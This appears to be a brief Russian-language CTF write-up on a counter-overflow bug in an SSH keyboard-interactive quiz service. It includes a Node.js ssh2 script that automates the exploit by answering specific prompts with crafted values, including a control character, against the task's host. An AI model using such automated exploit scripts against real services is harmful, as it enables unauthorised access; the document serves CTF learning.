 Принимает вопрос номер 4.

В ответ можно указывать любой символ.

В зависимости от номера вопроса происходило переполнение счетчика.

В зависимости от кода символа тоже было переполнение.

При вооде 4 в 34 запрос (Вроде выбор вопрос 17) было наиболее близкое число.

Далее символами в ответ задавали смещение.

PS: Судя по первому взляду правильных ответов не было, так как там рядом был рандом

```js
const { Client } = require('ssh2');
const conn = new Client();

let i = 0;
conn.on('ready', () => {
  console.log('Client :: ready');
  conn.exec('i love memes', (err, stream) => {
    if (err) throw err;
    stream.on('close', (code, signal) => {
      console.log('Stream :: close :: code: ' + code + ', signal: ' + signal);
      conn.end();
    }).on('data', (data) => {
      console.log('STDOUT: ' + data);
    }).stderr.on('data', (data) => {
      console.log('STDERR: ' + data);
    });
  });
}).on('keyboard-interactive', (name, instructions, instructionsLang, prompts, finish) => {
  const prompt = ((prompts && prompts[0]) ? prompts[0].prompt : '').split('\n')[0];
  i++;
  console.log(i, prompt);

  if (/Password/.test(prompt)) return finish([''])

  if (/question/.test(prompt) && i === 34) return finish(['4'])
  // 52

  if (/question/.test(prompt)) return finish(['1'])

  // Подбор
  if (/answer/.test(prompt)) return finish([`\u0018`]);
}).on('disconnect', (...data) => {
  console.log('disconnect', data);
}).on('error', (...data) => {
  console.log('error', data);
}).on('data', (...data) => {
  console.log('data', data);
}).connect({
  host: 't-darkshelf-7yhdavxe.spbctf.net',
  port: 22,
  username: 'grrm0e2714797f',
  type: 'keyboard-interactive',
  tryKeyboard: true
});
```
